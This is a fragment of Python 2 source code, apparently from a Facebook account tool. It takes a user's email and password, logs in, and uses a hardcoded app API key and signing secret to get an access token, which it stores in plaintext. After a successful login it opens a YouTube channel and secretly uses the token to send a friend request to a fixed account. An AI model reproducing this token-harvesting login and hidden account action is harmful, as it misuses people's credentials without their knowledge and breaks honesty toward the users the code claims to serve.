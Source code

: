 		
		print('          \033[1;97m[◉] \x1b[1;96mLogin New Fresh Account \033[1;97m[◉]' )
		id = raw_input('          \033[1;97m[◉] \033[1;97mID/Email \x1b[1;91m: \x1b[1;92m')
		pwd = raw_input('          \033[1;97m[◉] \033[1;97mPassword \x1b[1;91m: \x1b[1;92m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;96m[!] \x1b[1;91mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:

				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;36;40m[✓] Login Successful...'
				os.system('xdg-open https://www.youtube.com/channel/UCsdJQbRf0xpvwaDu1rqgJuA')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;97m[!] There is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;97m[!] Your Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;97mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
